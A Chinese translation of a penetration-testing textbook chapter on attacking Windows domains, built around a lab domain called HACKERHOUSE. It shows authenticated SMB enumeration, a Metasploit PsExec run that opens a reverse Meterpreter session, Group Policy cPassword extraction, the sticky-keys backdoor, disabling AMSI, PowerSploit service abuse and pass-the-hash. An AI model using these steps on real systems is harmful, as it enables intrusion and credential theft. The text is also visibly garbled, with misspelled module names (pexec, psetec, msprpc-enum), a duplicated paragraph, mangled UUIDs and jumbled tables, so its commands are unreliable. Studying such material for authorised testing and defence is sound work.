# 第 13 章 Microsoft Windows

> **注意**：一旦你获得了低权限用户的凭据，就可以将这些凭据提供枚举工具和脚本。它们提供的信息可能比没有凭据运行时提供的更多。这就是你如何逐步收集有关 Windows 环境的信息。

让 `Enum4linux` 使用 `-a` 选项执行“所有枚举”并提供用户名和密码。

```
enum4linux -a u HACKERHOUSE\helpdesk -p password <TargetIP>
```

```
enum4linux v0.8
( http://labs.portnullis.co.uk/application/enum4linux/ )
on Wed Jan 29 22:34:05 22
```

```
===========================
目标信息
===========================
目标：192.168.56.104
RID 范围：500-550, 1000-1050
用户名：'HACKERHOUSE\helpdesk'
密码：'password'
已知用户：administrator, guest, krbtgt, domain admins, root, bin, none
```

```
===========================
192.168.56.104 枚举工作组/域
===========================
[+] 获取域/工作组名称：HACKERHOUSE
===========================
```

```
192.168.56.104 的 Nbtstat 信息
查看 192.168.56.104 的状态
```

| 服务 | SID | 状态 |
| :--- | :--- | :--- |
| 文件服务器服务 | WIN2008R2 20 | 活动 |
| 工作站服务 | WIN2008R2 00 | 活动 |
| 域/工作组名称 | HACKERHOUSE 00 | 活动 |
| 域控制器 | HACKERHOUSE 00 | 活动 |
| 域主浏览器 | HACKERHOUSE 1b | 活动 |

`MAC 地址 = 08-00-27-B0-C4-56`

```
===========================
192.168.56.104 会话检查
===========================
```

[+] 服务器 `192.168.56.104` 允许使用用户名 `HACKERHOUSE\helpdesk`，密码 `password` 的会话

## 192.168.56.104 上的共享枚举

| 共享名称 | 类型 | 注释 |
| :--- | :--- | :--- |
| ADMIN$ | 磁盘 | 远程管理 |
| C$ | 磁盘 | 默认共享 |
| FILES | 磁盘 | |
| IPCS | IPC | 远程 IPC |
| NETLOGON | 磁盘 | 登录服务器共享 |
| SYSVOL | 磁盘 | 登录服务器共享 |

`SMB1 已禁用 - 无可用工作组`

[ 尝试在 `192.168.56.104` 上映射共享

```
//192.168.56.104/ADMIN$ 映射：被拒绝，列出：无
//192.168.56.104/C$ 映射：被拒绝，列出：无
//192.168.56.104/FILES 映射：成功，列出：成功
//192.168.56.104/IPCS [E] 无法理解响应：NT_STATUS_INVALID_PARAMETER \
//192.168.56.104/NETLOGON 映射：成功，列出：成功
//192.168.56.104/SYSVOL 映射：成功，列出：成功
```

## 192.168.56.104 的密码策略信息

[E] 来自 poleum 的意外错误

[ 使用 `HACKERHOUSE\helpdesk\` 连接到 `192.168.56.104`

[+] 正在尝试协议 `445/SMB`...

> [!] 协议失败：SMB SessionError: STATUS_LOGON_FAILURE
> (尝试登录无效。可能是由于用户名错误或身份验证信息错误。)

[+] 正在尝试协议 `139/SMB`...

> [!] 协议失败：无法请求会话 (调用名称:192.168.56.104)

[+] 使用 `rpcclient` 获取了部分密码策略：

- 密码复杂度：禁用
- 最小密码长度：6

## 192.168.56.104 上的组

[+] 正在获取内置组：

- group:[Server Operators] rid: [0x225]
- group:[Account Operators] rid: [0x224]
- group:[Pre-Windows 2000 Compatible Access] rid: [0x22a]
- group:[Inforest Trust Builders] rid: [0x22d]
- group:[Windows Authorization Access Group] rid: [0x230]
- group:[Terminal Server License Servers] rid: [0x231]
- group:[Administrators] rid: [0x220]
- group:[Users] rid: [0x221]
- group:[Guests] rid: [0x222]
- group:[Print Operators] rid: [0x226]
- group:[Backup Operators] rid: [0x227]
- group:[Replicator] rid: [0x228]
- group:[Remote Desktop Users] rid: [0x2bb]
- group:[Network Configuration Users] rid: [0x22c]
- group:[Performance Monitor Users] rid: [0x22e]
- group:[Performance Log Users] rid: [0x22f]
- group:[Distributed COM Users] rid: [0x232]
- group:[IIS_Users] rid:
- group:[Cryptographic Operators] rid: [0x239]
- group:[Event Log Readers] rid: [0x23d]
- group:[Certificate Service DCOM Access] rid: [0x23e]

[+] 正在获取内置组成员身份：

- Group 'Windows Authorization Access Group' (RID: 560) 成员：`NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS`
- Group 'Pre-Windows 2000 Compatible Access' (RID: 554) 成员：`NT AUTHORITY\Authenticated Users`
- Group 'Terminal Server License Servers' (RID: 561) 成员：`HACKERHOUSEWIN2008R2`
- Group 'Terminal Server License Servers' (RID: 561) 成员：`NT AUTHORITY\NETWORK_SERVICE`
- Group 'Certificate Service DCOM Access' (RID: 574) 成员：`NT AUTHORITY\Authenticated Users`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\hhadmin`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\backup`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\jennya`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\johnf`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\jimmym`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\helpdesk`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\trident`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\claire`
- Group 'Remote Desktop Users' (RID: 555) 成员：`HACKERHOUSE\craig`
- Group 'Users' (RID: 546) 成员：`NT AUTHORITY\INTERACTIVE`
- Group 'Users' (RID: 545) 成员：`NT AUTHORITY\Authenticated Users`
- Group 'Users' (RID: 545) 成员：`HACKERHOUSE\Domain Users`

- Group 'IIS_USERS' (RID: 568) 成员：`AUTHORITY\IUSR`
- Group 'Administrators' (RID: 544) 成员：`HACKERHOUSE\hhadmin`
- Group 'Administrators' (RID: 544) 成员：`HACKERHOUSE\Enterprise Admins`
- Group 'Administrators' (RID: 544) 成员：`HACKERHOUSE\Domain Admins`
- Group 'Guests' (RID: 546) 成员：`HACKERHOUSE\Guest`
- Group 'Guests' (RID: 546) 成员：`HACKERHOUSE\Domain Guests`

[+] 正在获取本地组：

- [Cert Publishers] rid: [0x205]
- [RAS and Servers] rid: [0x229]
- [Allowed RODC Group] rid: [0x23b]
- [Denied RODC Group] rid: [0x23c]
- [TS Web Access Administrators] rid: [0x3e8]
- [TS Web Access Administrators] rid: [0x3e9]
- [Dnsadmins] rid: [0x44f]
- [Terminal Server] rid: [0x451]

[+] 正在获取组身份：

- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\krbtgt`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Domain Controllers`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Schema Admins`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Enterprise Admins`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Cert Publishers`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Domain Admins`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Policy Creator`
- Group 'Denied RODC Group' (RID: 572) 成员：`HACKERHOUSE\Read-only Domain Controllers`

[+] 正在获取域组：

- group:[Enterprise Read-only Domain Controllers] rid: [0x1f2]
- group:[Domain Admins] rid: [0x200]
- group:[Domain Users] rid: [0x201]
- group:[Guests] rid: [0x202]
- group:[Computers] rid: [0x203]
- group:[Domain Controllers] rid: [0x204]
- group:[Schema Admins] rid: [0x206]
- group:[Enterprise Admins] rid: [0x207]
- group:[Policy Creator Owners] rid: [0x208]
- group:[Read-only Domain Controllers] rid: [0x209]
- group:[DnsUpdateProxy] rid: [0x450]

[+] 域组成员：

- Group 'Domain Guests' (RID: 514) 成员：`HACKERHOUSE\Guest`
- Group 'Domain Admins' (RID: 512) 成员：`HACKERHOUSE\hhadmin`
- Group 'Domain Admins' (RID: 512) 成员：`HACKERHOUSE\backup`


- Group 'Domain Controllers' (RID: 516) 成员：`HACKERHOUSE\WIN2008R2`
- Group 'Domain Policy Owners' (RID: 520) 成员：`HACKERHOUSE\hhadmin`
- Group 'Schema Admins' (RID: 518) 成员：`HACKERHOUSE\hhadmin`
- Group 'Enterprise Admins' (RID: 519) 成员：`HACKERHOUSE\backup`
- Group 'Enterprise Admins' (RID: 519) 成员：`HACKERHOUSE\svcadm`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\hhadmin`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\krbtgt`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\backup`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\jennya`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\peterk`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\johnf`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\jimmy`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\helpdesk`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\svcadm`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\trident`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\claire`
- Group 'Domain Users' (RID: 513) 成员：`HACKERHOUSE\craig`

# 第 13 章 = Microsoft Windows

`S-1-5-21-1500211425-9548422-91967473-520` `HACKERHOUSE\组策略所有者（域组）`
`S-1-5-21-1500211425-9548422-91967473-520` `HACKERHOUSE\只读域控制器（域组）`

你可以在这里看到更多用户信息，但在我们的示例中，管理员同时也是一个域管理员账户，而不仅仅是本地管理员。工作站 SID 会与域 SID 不同，你可以利用它在本地用户和域用户之间进行枚举。请记住，本地管理员仅对本地机器具有控制权，而域管理员账户对整个域具有控制权。

你也会在之前的输出中看到一些熟悉的名称和用户。你对这些用户的操作可能是尝试单次密码猜测——手动进行，不使用任何工具。回想一下我们在书开始时回顾的开源情报（OSINT）技术。也许你可以使用从你怀疑可能包含其中的公共泄露中获得的密码。它可能是一个与该人员所在公司相关的词。也许他们为 LinkedIn 账户和 Windows 工作站使用了相同的密码。如果你对每个用户只进行一次密码猜测，那么这个猜测至少应该是一个有根据的猜测。只需一次正确的猜测就能让你在域上获得更好的立脚点。因此，我们建议你这样做，但要节制并进行手动操作。你甚至可能会看到以 LDAP 注释形式写入或提供的形式的密码，除非你从目标系统获取了枚举信息。

> **警告** 我们不建议在 Windows 企业环境中进行自动化暴力破解攻击，因为你可能会导致多个用户的账户被锁定。如果使用自动化方法，这种情况很容易发生，因为域账户通常只会设置账户限制。虽然这不是默认设置，但某些缺乏经验的操作员可能会快速设置这些限制，忽略了此设置，或者没有为某个地点的特定用户组启用它。在内部网络上进行暴力破解时要小心——这是一把大锤，而你已经穿过了更硬的外壳。

# Microsoft RPC

你已经看到过 RPC 协议在 Linux 和 UNIX 主机上是如何显示的。微软有自己的专有 RPC 协议，这些协议源自 DCE/RPC。你从之前的扫描结果中看到许多高端口显示为开放状态。这里再次列出：

| 端口 | 状态 | 服务 | 版本信息 |
| :--- | :--- | :--- | :--- |
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 593/tcp | open | nsimp_http | Microsoft Windows RPC over HTTP 1.0 |
| 49152/tcp | open | msrpc | Microsoft Windows RPC |
| 49153/tcp | open | msrpc | Microsoft Windows RPC |
| 49154/tcp | open | msrpc | Microsoft Windows RPC |
| 49155/tcp | open | msrpc | Microsoft Windows RPC |
| 49156/tcp | open | msrpc | Microsoft Windows RPC |
| 49158/tcp | open | nsimp_http | Microsoft Windows RPC over HTTP 1.0 |
| 49161/tcp | open | msrpc | Microsoft Windows RPC |
| 49168/tcp | open | msrpc | Microsoft Windows RPC |
| 49186/tcp | open | msrpc | Microsoft Windows RPC |
| 49187/tcp | open | msrpc | Microsoft Windows RPC |

MSRPC 是与我们已经探索过的 RPC 协议不同的实现，但原理是相同的。你在之前的输出中看到的是许多开放端口，每个端口都与可以在主机上运行的另一个程序（或过程）相关。可以探测这些端口以收集有关系统的更多信息，并查出主机上可能安装了哪些额外的软件。你可以尝试使用相关的 Nmap 脚本（`script`）从这些 RPC 服务中获取更多信息。尝试使用命令 `ls /usr/share/nmap/scripts | grep rpc` 来过滤名称中包含 rpc 的脚本。

```
bitcoinrpc-info.nse
deluge-rpc-brute.nse
metasploit-msrpc-brute.nse
metasploit-xmlrpc-brute.nse
nrpc-enum.nse
nessus-xmlrpc-brute.nse
npcap-brute.nse
npcap-info.nse
rpc-grind.nse
rpcinfo.nse
xmlrpc-methods.nse
```

> **提示** 记住你可以使用 Hacker House 的 `nsediscover.py` Python 脚本来查看有关 NSE 脚本的信息。你也可以使用 Nmap 通过 `nmap --script-help=<ScriptName>` 查看脚本的帮助信息。例如，`nmap --script-help=msrpc-enum` 会打印以下内容：

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-29 17:39 GMT
```

分类：安全发现 https://nmap.org/nsedoc/scripts/msrpc-enum.html

查询 MSRPC 端点映射器以获取映射的服务列表并显示收集的信息。

由于它使用了 smb 库，你可以指定可选的用户名和密码。脚本的工作方式类似于 SPI fuzzer 中的微软 `rpcdump` 或 `dcdump` 工具。尝试使用 `msprpc-enum` 脚本（`nmap <TargetIP> --script=msprpc-enum`）。你可能会在扫描结果中看到类似的内容：

```
Host script results:
msprpc-enum: NT_STATUS_ACCESS_DENIED
```

虽然 `msprpc-enum` 脚本的使用没有说明如何提供凭据，但这意味着 SMB 用户名和密码是可以受保护的。检查其他 Nmap 脚本将让你看到，如果你好奇 SMB 如何通过 SMB 调用，这里是完整的命令：

```
nmap <TargetIP> -p 139 --script=msprpc-enum --script-args=smbuser,smbpass
```

```
Host script results:
msprpc-enum: RPC-8eef9902af7714cbe
uuid: 32d67954-eeb-11d1-94e-04fa3080
exe: server.exe Terminal Server Licensing
annotation: Spooler function endpoint
uuid: 06b6edff-4a24-4fc6-8a23-94bleca65d1
rpc: 06b6edff-4a24-4fc6-8a23-94bleca65d1
```

MSRPC 是与我们已经探索过的 RPC 协议不同的实现，但原理是相同的。你在之前的输出中看到的是许多开放端口，每个端口都与可以在主机上运行的另一个程序（或过程）相关。可以探测这些端口以收集有关系统的更多信息，并查出主机上可能安装了哪些额外的软件。你可以尝试使用相关的 Nmap 脚本从这些 RPC 服务中获取更多信息。尝试使用命令 `ls /usr/share/nmap/scripts | grep rpc` 来过滤名称中包含 rpc 的脚本。

# 第 13 章 | Microsoft Windows

## 494 第 13 章 » Microsoft Windows

目标可能会显示与此段落代码类似的输出。我们将在该模块中使用 Meterpreter payload，例如 `windows/meterpreter/reverse_hooks`，它会将 Meterpreter 注入到主机目标。Meterpreter 是一个载荷管理系统，同时也提供 shell，它无疑会触发一个服务，这正是你使用 PsExec 运行 `.exe` 时看起来的样子。我们将在本章稍后详细讨论 Meterpreter。现在，只需知道它创建了你可以进一步交互的会话即可。

```
msf5 exploit (windows/smb/pexec) > run
[*] Started HTTPS handler on https://192.168.11.199:443
[*] 192.168.11.61:45 Connecting to the server...
[*] 192.168.11.61:45 Authenticating to 192.168.11.61:45|HACKEROUSE as 'hdadmin'
[*] 192.168.11.61:45 Uploading payload... pFVqdah.exe
[*] 192.168.11.61:45 Created pFVqdZh.exe...
[*] https://192.168.11.199:443 handling request from 192.168.11.61; (UID: tgxb8my) Staging x86 payload (18137 bytes)
[*] Meterpreter session 2 opened (192.168.11.199:443) -> 192.168.11.61:51984 at 2022-07-02 19:51:47 -0500
[*] 192.168.11.61:45 Service started successfully.
```

一旦我们利用了任何 Windows 系统，我们将在后渗透阶段在进程中运行命令，从这些主机上枚举信息。这就是我们查询主机并探测资源以进行利用的地方。使用域账户，我们还可以找到网络共享上的信息。使用 Metasploit 模块枚举组策略偏好（Group Policy Preferences）。组策略是 Windows Server 用于对域内的一组用户和计算机应用安全设置的技术。这些偏好可以通过 SMB 在通用 Internet 文件系统（CIFS）挂载以 XML 文件的形式找到。

有一个后渗透模块可以通过挂载为域识别的 SYSVOL 文件共享并在其中搜索文件来利用此漏洞。`c:\Windows\SYSVOL` 组策略文件使用 XML 文档描述网络资源需要如何配置自身。这些文件包含 `cPassword` 用户密码。这些密码是加密的；然而，微软发布了用于解密它们的 AES 私钥，这使得加密对我们来说形同虚设！

许多公司使用此功能来重命名本地 Administrator 账户，并为工作站指定唯一密码，这是一种降低权限和防止未经授权访问的快速安全修复。随着公司更新网络，组策略文件被迁移，有时管理员会忘记它们曾设置过这些内容，或者这些设置由于时间太久而被遗忘了。

微软在 MS14-025 中修复了这个问题，如果你尝试使用 Microsoft GUI 来指定 `cPassword` 值，你将收到拒绝访问的对话框。

## 495

尽管如此，许多人仍然手动使用 `cPassword`，或者在使用旧的组策略文件中包含这些值。以下是通过 Meterpreter shell 利用该问题的情况。它是一个后渗透模块，这意味着它是你在利用漏洞获取 shell 后在主机上执行的过程。Metasploit 包含了数百个用于此类过程的模块，包括权限提升。你也可以手动执行此操作。如果你正在查看输出，你会发现通过组策略偏好发现了 `hhadmin` 账户和密码。

```
msf5 post (windows/gather/credentials/gpp) > exploit

[*] Checking for group policy history objects...
[*] Cached Group Policy folder found locally
[*] Checking for SYSVOL locals...
[-] Error accessing C:Windows\SYSVOL\sysvol : stdapi_fs_ls failed: The system could not find the path specified.
[*] Enumerating Domains on the Network...
[-] ERROR_BROWSER_SERVERS_FOUND
[*] Enumerating domain information from the local registry...
[*] Retrieved Domain(s) : WIN2019PDC.HACKERHOUSE.INTERNAL from registry
[*] Enumerating DCs for HACKERHOUSE on the network...
[-] ERROR_BROWSER_SERVERS_FOUND
[-] No Domain Controllers found for HACKERHOUSE
[*] Searching for Policy Share on WIN2019PDC.HACKERHOUSE.INTERNAL...
[*] Found Policy Share in WIN2019PDC.HACKERHOUSE.INTERNAL
[*] Searching for Group Policy XML Files...
[-] Received error code 0214750650 when reading C:\ProgramData\Microsoft\GroupPolicy\History\31B2F340-061D-11D2-945F-00C4FB98F9\\MACHINE\Policies\Preference\WIN2019PDC.HACKERHOUSE.INTERNAL\SYSVOL\HACKERHOUSE.INTERNAL\HACKERHOUSE\\31B2F340-061D-11D2-945F-00C4FB98F9\\MACHINE\Preferences\Groups.xml
[+] Group Policy Credential Info
```

| Name | Value |
| --- | --- |
| TYPE | Groups.xml |
| USERNAME | hhadmin |
| PASSWORD | Password |
| DOMAIN CONTROLLER | WIN2019PDC.HACKERHOUSE.INTERNAL |
| DOMAIN | HACKERHOUSE.INTERNAL |
| CHANGED | 2020-02-05 20:59:52 |
| NEVER_EXPIRES | 0 |
| DISABLED | 0 |
| NAME | Default Domain Policy |

```
[+] XML file saved to: /root/.msf4/loot/20200207195404_default_192.168.11.61_microsoft.window_948305.txt
```

```
[+] Post module execution completed
```

该账户可能是服务账户或特权用户账户。它可能是多台机器上的本地 Administrator 账户，因此你现在可以开始进入这些系统，并在过程中寻找秘密。`hmm` 账户的密码。

# 498 第 13 章 » 微软 Windows



**图 13.7：** 使用 Remmina 通过 RDP 连接到 Windows 服务器主机


此登录界面可能被称为图形化识别和身份验证（GINA）。Windows 的这一特定组件在 Vista 中已停止使用。尽管它看起来一模一样，并且会提示我们按 `Ctrl+Alt+Delete`，但底层技术已经发生了变化。这里常见的攻击方法是替换 `sethc.exe`，该文件是一个在 Windows 上连续按五次 Shift 键时运行的二进制文件。它通常被称为“粘滞键”（sticky keys），并且可以通过远程桌面启动。通过这种方式，如果你拥有具有管理员权限的 Windows 计算机的访问权限，可以将 `c:\windows\system32` 中的 `sethc.exe` 替换为 `cmd.exe`，并从 GINA 界面启动一个 SYSTEM shell 作为一个快速简便的后门，这恰好也可以通过终端服务（Terminal Services）访问。今天，Windows 将尝试防止你轻易执行此操作，你可能需要将权限提升到 SYSTEM 或禁用文件保护才能使用这种策略。

## Windows Shell

如果你从你的 Kali Linux 虚拟机运行一个利用程序（例如针对 MS17-010 的 Metasploit 模块或 PsExec），并使用一个提供基本 shell 的有效负载（例如 `windows/x64/shell/bind_tcp`），那么你就能从你的 Linux 机器探索 Windows shell。这并不是你唯一可以使用的 shell 类型，但它对于学习目的是有帮助的，而且在某些情况下，你可能没有选择，被迫使用它。

shell 的外观看起来类似于下面的终端输出。前两行实际上是欢迎横幅，`C:\Windows\system32>` 行是命令提示符，它还会显示当前的工作目录或文件夹。

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

从这里开始，你可以在任何 shell 中使用命令，但许多你可能认为理所当然的事情在这里将不起作用。例如，尝试 `id` 命令将导致以下错误消息：

```
'id' is not recognized as an internal or external command, operable
program or batch file.
```

你还需要学习并使用 Windows 命令，以及许多常用的 Linux 命令。某些命令与 Linux 中的命令相同，但所需的语法或参数会有不同。例如，你使用 `dir` 而不是 `ls` 来列出目录内容。只需几个命令，你就可以开始探索并寻找文件。

你还会想要尝试一些 Windows 命令行工具，如 `nltest`，用于查询 Windows Netlogin 服务。如果你想查找此工具，`man` 将不起作用，但尝试在不带参数的情况下运行它看看发生什么。你会看到类似这样的错误消息：

> No parameters specified. Use ? for help on command line parameters.

这很有用。你现在知道如何查找帮助信息了！使用 `nltest` 的一种方法是 `nltest /dist:hackerhouse`。在这个示例中，你正在请求 hackerhouse 域的域控制器列表（这在输出 `enumlinux elixir` 中已显示）。如果你设置了自己的域，将需要使用你给出的任何名称。假设你能够访问某台不是域控制器，而是客户网络上的工作站或其他服务器的机器。你需要识别域控制器，因为它们是他们的最终目标。使用 `nltest` 时，你可以预期看到类似的内容：

```
List of DCs in domain 'hackerhouse' from '\WIN2008R2$.
WIN2008R2.HACKERHOUSE.LAN [PDC] Site: Default-First-Site-Name
The command completed successfully
```

列表中只有一个项，`WIN2008R2.HACKERHOUSE.LAN` 是如 `[PDC]` 所示的主域控制器。`net` 程序很有用，你可以向它提供许多参数，可以通过 `net help` 命令查看这些参数。要查询本地机器上的用户，可以使用 `net users`，它将呈现如下用户列表：

| | backup | claire | craigf |
|---|---|---|---|
| Guest | helpdesk | hhadmin | |
| jennya | jimmy | johnf | |
| krbtgt | peterk | svcadm | |
| trident | | | |
| The command completed with one or more errors | | | |

你可以使用 `net users /domain` 显示用户，不仅针对本地机器，还针对整个域。命令 `net group "Domain Admins"` 将查询存在 Domain Admins 组中的用户。这特别有用——这些用户对你来说是有利的攻破目标，因为其中一个账户将让你获得域的控制权。你可以提供许多参数，可以通过 `net help` 命令查看。以下是一些常见的组组组：

| Services (Local) | Name | Description | Status | Startup Type | Log On |
|---|---|---|---|---|---|
| Active Directory Domain Services | | Running | Automatic | Local System |
| Active Directory Web Services | | Running | Automatic | Local System |
| AppInstall Service | | Provided by | Manual | Local System |
| Remote Registry | | Gets remote registry | Manual | Local System |
| Application Helper Service | | Provided by | Running | Local System |
| Application Information | | Facilitates tasks | Manual | Local System |
| Application Management | | | Manual | Local System |
| Application Layer Gateway Service | | Provided by | Manual | Local System |
| AppX Deployment Service (AppXSVC) | | Provided by | | | Local System |
| ASP.NET State Service | | Provided by... | Manual | Network Service... |
| Auto Time Service | | This is audio | Disabled | Manual |
| AVCTP | | Transfer files | Manual | Local System |
| Background Intelligent Transfer Service | | Running | Automatic | Local System |
| Backup Tasks Infrastructure Service | | The Base Foundation | | | Local System |
| Base Filtering Engine | | Service support | Manual | Local System |
| Bluetooth Audio Gateway | | The Threaded... | Manual | Local System |
| Capability Access Manager Service | | Provided fac... | Manual | Local System |
| Certificate Service,4756 | | Running | Automatic | Local System |
| Certificate Preparation | | Provided by... | Manual | Local System |
| Client License Service (Clsid:4761) | | This user service | Manual | Local System |
| Clipped User Service | | The Cache-... | Manual | Local System |

图 13.8：Windows 服务

在图 13.8 中（这是一个显示服务的 GUI 浏览器），你可以看到一个以 backup 用户运行的 VNC Server (4) 服务。右键点击此服务并从右键菜单中选择属性，将显示有关它的更多信息，以及似乎是存储的密码。此账户信息存储在计算机的本地安全权威 (LSA) 缓存中，可以使用 Meterpreter 或 Mimikatz 进行提取。服务账户通常是特权用户，经常会创建一个账户来管理公司范围内的软件，如 VPN、备份或杀毒软件。使用 Meterpreter 会话和后渗透脚本（如 `windows/gather/lsa_secrets`）将暴露此类账户的密码。

注意，某些服务以本地服务或网络服务运行。有些以 Network System 和 Local System 运行。SYSTEM 是 Windows 中的一个重要“词”（word）实际上代表一个用户。早些我们提到过管理员（Administrator）账户类似于 UNIX 的 root 账户，但实际上 SYSTEM 用户与 root 用户最相似。你无法以 SYSTEM 用户的身份登录，但完全可以通过不当手段变成 SYSTEM 用户，或者以 SYSTEM 权限运行代码。

一个良好的权限提升路径是识别一个以 Local System（本地系统）身份运行的服务，并且存在交互或更改该运行服务的范围。这可以通过类似 `cacls.exe` 的工具调查文件权限，识别文件权限并查看你是否可以用自己的文件覆盖它。在 PowerShell 出现之前，手动执行操作是一项繁琐的任务，而这正是黑客过去所做的。

## PowerSploit 和 AMSI

在获取 Windows 主机（或任何主机）的立脚点后，你可能执行的第一件事就是上传工具用于进一步的测试和权限提升。PowerSploit 是一个包含处理受攻击主机的 PowerShell 模块框架。你可以在 github.com/PowerSploitMafia/PowerSploit 找到 PowerSploit。注意，在现代 Windows 系统上，启用了反恶意软件扫描接口（AMSI）。AMSI 会扫描脚本，并能快速识别任何此类示例。出于学习目的，你可能想在自己的实验环境中禁用 AMSI。

> AMSI 是一项标准，允许应用程序与机器上存在的任何反恶意软件集成。

要将 PowerSploit 加载到 PowerShell 中，假设它位于当前目录，你可以使用以下命令：

```
Import-module .\PowerSploit.ps1
```

然而，你可能会收到错误消息，例如“无法加载，因为禁止执行脚本”。尽管如此，可以通过 `ExecutionPolicy` 更改执行策略：

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
```

在提示时输入 y 继续，如果你有足够的管理员权限，这应该更改系统范围设置以允许加载脚本。如果你因为权限不足无法更改系统范围策略，请尝试使用以下命令：

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process
```

一旦运行上述命令之一，再次尝试 `Import-module .\PowerSploit.ps1`。你现在应该可以将脚本导入到本地进程中了。这为 PowerShell 增加了更多命令，如 `Invoke-ACLScanner`、`Invoke-AllChecks` 和 `Invoke-LocalAdminAccess`。`Invoke-AllChecks` 可用于自动检查各种权限提升机会，检查所有服务二进制文件是否存在弱权限。

一旦你找到合适的服务（你可以运行 `services.msc` 来查找它们）及其对应的二进制文件，可以运行命令 `cacls <FileName>` 来检查该文件的访问控制。这类似于在类 UNIX 操作系统上检查文件的权限。你可能会看到所有 BUILTIN 用户都对某个二进制文件具有完全控制权，可能还有 `NT AUTHORITY` 用户和 `Administrators`。如果是这样，意味着一个在启动时以本地系统账户运行的可执行文件恰好就是那个（`BUILTIN` 用户是操作系统上所有本地用户的自动创建组）。同样，`BUILTIN\Administrators` 会自动填充管理员组的成员用户。微软使用 `BUILTIN` 作为创建这些用于文件管理和内部管理的用户映射的方式。你可以使用 PowerSploit 的 `Invoke-ServiceAbuse -Name "ServiceName"` 谓词来从分析角度利用这一点。这将为你创建一个包含密码在内的具有管理员权限的新用户。它是通过将服务可执行文件替换为新文件并重启服务来实现的——你可以手动执行此过程。

你可能会遇到一个已安装的服务——解决方案或杀毒程序——它很容易受到这种攻击。Hacker House 多年来在许多自定义内部服务上发现了此类文件权限问题。你只需要一个配置错误的服务即可获得特权 SYSTEM 访问，然后就可以读取 SAM 的保护哈希值。

## Meterpreter

一组名为 "Last Stage of Delirium" 的波兰研究人员在 2001 年发明了一种名为 WASM 的创新工具。WASM 是 Windows 系统中此类工具的首个，它从根本上改变了对攻击 Windows 系统的认知。WASM 是一个有效负载管理系统，允许你在利用漏洞获取系统立足点后，通过向目标主机上传额外代码来执行复杂任务。Meterpreter 可以被看作 WASM 的继任者。

# 第 13 章 - Microsoft Windows 503

你可以获取域账户的 NTLM 哈希值，并在另一台加入该域的主机上执行命令。这可以通过 impacket 工具轻松实现，这些工具提供了将哈希值传递给如 WmiExec 和 PsExec 使用的 Windows 服务管理器等服务的示例。你也可以使用 GPU 资源破解 NTLM，我们将在第 14 章“密码”中介绍这一点。不过，目前只需要知道，2012 年已经证明，每个 8 位字符的 NTLM 密码变体可以在六小时内被破解，而且计算机在处理这一过程的能力每年都在提高。

# 第 13 章 - Microsoft Windows 507


在接下来的示例中，我们将密码哈希作为密码提供给 `windows/smb/psetec` Metasploit 模块，同时带有用户名 `hhadmin`。相关选项如下：

| 名称 | 当前设置 | 是否必须 | 描述 |
| --- | --- | --- | --- |
| HOSTS | | 是 | 目标主机，CIDR 范围 |
| RPORT | 445 | 是 | SMB 服务端口 (TCP) |
| SERVICE_DESCRIPTION | | 否 | 用于美化列表的服务描述 |
| SERVICE_DISPLAY_NAME | | 否 | 服务名称 |
| SERVICE_NAME | | 否 | 服务名称 |
| SHARE | ADMIN$ | 是 | 要连接的共享，可以是管理员共享 (ADMIN,$C$,...) 或普通的读写型文件夹共享 |
| SMBDomain | | 否 | 要使用的的 Windows 域 |
| authentication | | 否 | 指定用户名的密码 |
| SMBUser | | 否 | 用于身份验证的用户名 |

我们不是提供密码，而是使用 `set SMBPass` 命令提供哈希值。

```
